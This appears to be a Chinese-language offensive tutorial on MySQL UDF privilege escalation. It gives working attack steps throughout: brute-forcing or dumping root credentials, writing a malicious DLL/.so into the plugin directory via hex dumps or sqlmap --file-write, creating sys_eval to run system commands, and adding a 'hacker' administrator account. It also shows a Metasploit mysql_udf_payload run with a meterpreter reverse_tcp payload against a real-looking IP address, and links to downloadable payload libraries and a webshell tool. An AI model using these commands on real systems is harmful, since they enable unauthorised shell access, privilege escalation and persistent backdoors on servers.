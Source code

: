 # **UDF提权**
UDF提权是通过数据库来实现获取目标系统的管理员的shell，root，system。达到从低权限提权到高权限 

^
用户自定义函数，是数据库功能的一种扩展，用户通过自定义函数（动态链接库）实现mysql中无法方便实现的功能，其添加得新函数都可以在sql语句中调用，就像调用version()。

## **提权条件**
有了mysql高权限，如root用户。
获取：
1. 3306端口弱口令爆破。
2. sqlmap 注入的 --sql-shell 模式。sqlmap查表拿到root明文拿去cmd5网站破译 --dump -C "password" -T user -D mysql。
3. 网站的数据库配置文件中拿到明文密码信息。
4. CVE-2012-2122 等这类漏洞直接拿下MYSQL权限。  
5. phpmyadmin爆破登录。
6. 必须能写文件。

^
## **不同版本动态链接库dll或so要写入的位置**
查看版本：select version();
MySQL < 5.0，mysql能检索的目录即可。
5.0<=MySQL<5.1 ,需要导出至目标服务器的系统目录。（如：c/windows/system32/）
MySQL >= 5.1 ，必须放置于 MySQL 安装目录下的 lib\plugin 文件夹下才能创建自定义函数
^
mysql配件位置：select @@plugin_dir;
如果不存在的话可以在 webshell 中找到 MySQL 的安装目录然后手工创建 \lib\plugin\文件夹：
mysql安装目录位置：select @@basedir;

普通linux中mysql：/usr/lib/mysql/plugin/
宝塔linux中mysql：/www/server/mysql/lib/plugin/
windows的phystudy中mysql：\phpstudy_pro\Extensions\MySQL5.7.26\lib\plugin\
^
## **动态链接库dll或so文件来源**
sqlmap中有（/usr/share/sqlmap/data/udf/），不过编码过so_，需要先解码成so
MSF中的没有编码过直接可用 (根目录/embedded/framework/data/exploits/mysql)
或直接下载：<https://sqlsec.lanzoux.com/i4b7jhyhwid>

^
## **写入和利用**
**1.利用十六进制数据字符写入表在转化成dll：**
获取udf.dll文件的十六进制hex值，这里存入txt。
>可以使用工具提取，也可以直接使用mysql函数读转写文件（已知能读写）：
    select hex(load_file("C:/udf.dll")) into dumpfile 'C:/udf.txt'
```
登录目标机数据库，创建表:
use mysql;
create table udf(c LONGBLOB)  //创建udf表，c字段

表中插入值这个十六进制串并hex解码：
insert into udf values(unhex('十六进制串'));

查写入地址：
select @@plugin_dir;

查这个表的结果通过into dumpfile 'xx/lib/plugin/udf.dll'写入：\的路径改为/
select c from udf into dumpfile 'D:/xxx/udf.dll';
```

**实际直接写十六进制串到目标文件也可以，上面作废。十六进制串：**<https://www.sqlsec.com/tools/udf.html>
```
select 0x十六进制串 into dumpfile 'D:/xxx/udf.dll';
```
出现以下报错，把64换成32位的即可。
```
ERROR 1126 (HY000): Can't open shared library 'udf.dll' (errno: 193 )
```


^
^
**2.直接利用sqlmap的post传参将动态链接库文件写入mysql目录：**
SQL 注入且是高权限，plugin 目录可写且需要 secure\_file\_priv 无限制，MySQL 插件目录可以被 MySQL 用户写入，这个时候就可以直接使用 sqlmap 来上传动态链接库，又因为 GET 有**字节长度限制**，所以往往 POST 注入才可以执行这种攻击
```
--secure-file-priv = null  //任何不可读写
--secure-file-priv =        //任何可读写
--secure-file-priv = c:\   //只有C盘可读写
在 MySQL 5.5 之前 secure_file_priv 默认是空，这个情况下可以向任意绝对路径读写文件
在 MySQL 5.5 之后 secure_file_priv 默认是 NULL，这个情况下不可以读写文件
查看配置：
show variables like '%secure%';
```
sqlmap写动态链接库
```
sqlmap -u "http://localhost:30008/" --data="id=1" 
--file-write="/Users/sec/Desktop/lib_mysqludf_sys_64.so" 
--file-dest="/usr/lib/mysql/plugin/udf.so"
```

^
**3.提权利用：**
可以利用动态链接库里定义函数，使用可以操作系统shell的函数，且为最高权限system。
```
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll'; //创建函数

select * from mysql.func; //查看自定义的函数
drop function sys_eval; //删除自定义函数

select sys_eval('whoami'); //使用函数
select sys_eval('sudo ls /root'); 
```
windows加用户并加入管理员组
```
创建一个用户hacker ,密码123456
net user hacker 123456 /add

将hacker用户加入管理员组，有远程登录权限。
net localgroup administrators hacker /add
`
```

^
^
## **MSF直接使用UDF模块**
前提：mysql的root账号知道密码，开启了外链登录，可以写文件。
```
开启：
GRANT ALL PRIVILEGES ON *.* TO '帐号'@'%'IDENTIFIED BY '密码' WITH GRANT OPTION;
```
使用MSF中的exploit/multimysql/mysql_udf_payload模块可以进行UDF提权，注入dll。
MSF会将dll文件写入lib\plugin\目录下（前提是该目录存在，需手工创建），
该dll文件中包含sys_exec(）和sys_eval(）两个函数，但是默认只创建sys_exec(）函数，该函数执行并不会有回显。
我们可以手动创建sys_eval()函数，来执行有回显的命令。
MSF:（前提mysql的root开启了外链）
```
use exploit/multi/mysql/mysql_udf_payload
show options
set payload windows/meterpreter/reverse_tcp
set username root
set password root密码
set rhosts 47.102.195.100
run
```
Navicat中：
```
MSF外链root导入dll后，再sql语句执行后续命令调用执行
select * from mysql.func where name="sys_exec";//查看自义定函数中有无sys_exec了，也可以看到绑定的dll名称
create function sys_eval retums string soname "WqkerHcA.dll";//创建函数sys_eval()绑定dll，dll名字随机需要手动查看或上一条命令查看。
select sys_eval("whoami");/调用函数进行命令执行
```
^
^
# **内网MySQL UDF提权**
假设目标 MySQL 在内网情况下，已经开启了外链，无法直连 MySQL 或者 MySQL账号不允许外连，这个时候一些服务端本地网页脚本（本地localhost连接）就比较方便好用了。

上传这个php程序到目标站点，登录内网mysql和一键UDF提权：<https://github.com/echohun/tools/blob/master/%E5%A4%A7%E9%A9%AC/udf.php>

或者上传存在sql注入的datagear服务，java8启动，可以连接localhost，读数据，再用sqlmap提权。

或者可执行文件如go程序可以配置连接本地数据库的。

或者端口转发。
^
^
^
# **UDF+反弹shell提权**
UDF 提权的另一种用法，这里的动态链接库被定制过的，
如上传动态链接库后，创建绑定函数，函数可以传入反弹的ip和端口作为参数，运行即可反弹shell，且这个shell为最高权限，实现提权。

